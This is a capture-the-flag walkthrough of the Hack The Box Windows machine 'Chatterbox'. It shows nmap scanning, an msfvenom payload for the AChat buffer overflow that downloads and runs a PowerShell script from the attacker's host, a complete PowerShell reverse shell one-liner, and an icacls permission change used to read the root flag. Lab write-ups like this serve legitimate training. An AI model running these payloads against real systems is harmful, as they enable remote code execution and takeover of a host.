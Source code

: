 
![logo](/logo.png)

# [Chatterbox- BOX]  
Hi folks, today I am going to solve an Medium rated hack the box machine which was released on 27 Jan 2018 machine on HTB,Chatterbox created by [lkys37en](https://app.hackthebox.com/users/709).So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *steghide
  *Wordpress
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/chatterbox 10.10.10.74 -Pn
```

###### Output 

![](/Windows/Windows-Medium/Chatterbox/Screenshots/1nmap.png)

looking at this it does not find anything so next we scan for all ports

```sh
nmap -sV -sC -oA nmap/chatterbox 10.10.10.74 -Pn -p-
```


Nmap finds only AChat running on the machine.In general, TCP/9255 is Monitor on Network, and TCP/9256 is unassigned. That’s not terribly helpful. However, there are multiple references to `AChat` (for example, [here](https://www.speedguide.net/port.php?port=9256)), and there’s a [SEH-based stack buffer overflow](https://www.exploit-db.com/exploits/36025/) for it.

Using msfvenom, it is possible to generate shellcode for use in the above exploit.

```sh
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.6/Invoke-PowerShellTcp.ps1')" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python > shellcode
```

![](/Windows/Windows-Medium/Chatterbox/Screenshots/msfvenom.png)

When working Windows hosts, I typically use the [Nishang](https://github.com/samratashok/nishang) `Invoke-PowerShellTcp.ps1` script to get a shell. We can do that pretty easily here by changing the command from simply launching calc to one that will invoke powershell and have it call to us to get the shell to execute:

```sh
#A simple and small reverse shell. Options and help removed to save space. 
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.6',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

```

![](/Windows/Windows-Medium/Chatterbox/Screenshots/shellcode.png)
Put that output into the script, and run it: [AchatExploit](https://www.exploit-db.com/exploits/36025) the exploit below

![](/Windows/Windows-Medium/Chatterbox/Screenshots/vscodeshell.png)

![](/Windows/Windows-Medium/Chatterbox/Screenshots/exploit.png)

checking at the request we find that it has picked the file

![](/Windows/Windows-Medium/Chatterbox/Screenshots/listenning.png)

checking the listenning we get shell

![](/Windows/Windows-Medium/Chatterbox/Screenshots/shell.png)

you can get the `user.txt` in `Alfred`

![](/Windows/Windows-Medium/Chatterbox/Screenshots/userflag.png)

We don’t have read access to the file now:

```sh
icacls root.txt
```

![](/Windows/Windows-Medium/Chatterbox/Screenshots/icacls.png)

If we look at the directory for Desktop itself, Alfred actually has permissions on it:But, we can change that with `icacls`:

```sh
icacls root.txt /grant alfred:F
```

![](/Windows/Windows-Medium/Chatterbox/Screenshots/root.png)

then we find root after changing to `Alfred`

![](/Windows/Windows-Medium/Chatterbox/Screenshots/rootflag.png)

	-------------------------END successful attack @lesley----------------------




